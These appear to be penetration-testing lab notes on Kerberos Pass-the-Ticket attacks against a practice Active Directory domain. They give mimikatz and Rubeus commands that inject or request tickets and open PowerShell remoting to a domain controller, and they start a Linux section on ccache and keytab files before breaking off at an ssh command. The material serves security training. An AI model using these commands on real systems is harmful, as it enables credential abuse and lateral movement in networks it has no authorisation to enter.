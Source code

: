   * PtT with PowerShell Remoting (required to be member of Remote Management Users group):

    ```cmd
    mimikatz.exe

    privilege::debug

    kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

    exit

    # now we can launch PS console from same cmd window and connect to target machine
    powershell

    Enter-PSSession -ComputerName DC01
    ```

    ```cmd
    # the same using Rubeus
    Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
    # createnetonly creates a hidden process or logon session

    # this opens a new cmd window
    # we can execute Rubeus here to request a new TGT
    Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

    powershell

    Enter-PSSession -ComputerName DC01
    ```

* PtT from Linux:

  * in some cases, Linux machines can also connect to AD, so they will also use Kerberos for authentication; Kerberos tickets usually stored as 'ccache' files in ```/tmp```, its location stored in env variable ```KRB5CCNAME```, and ```keytab``` files are used, which contain pairs of Kerberos principals & encrypted keys

  * identifying Linux & AD integration:

    ```sh
    ssh david@inlanefreight.htb@10.129.204.23 -p 2222
    # first we have to connect to the Linux host via port forward
    # port 2222 is for MS01
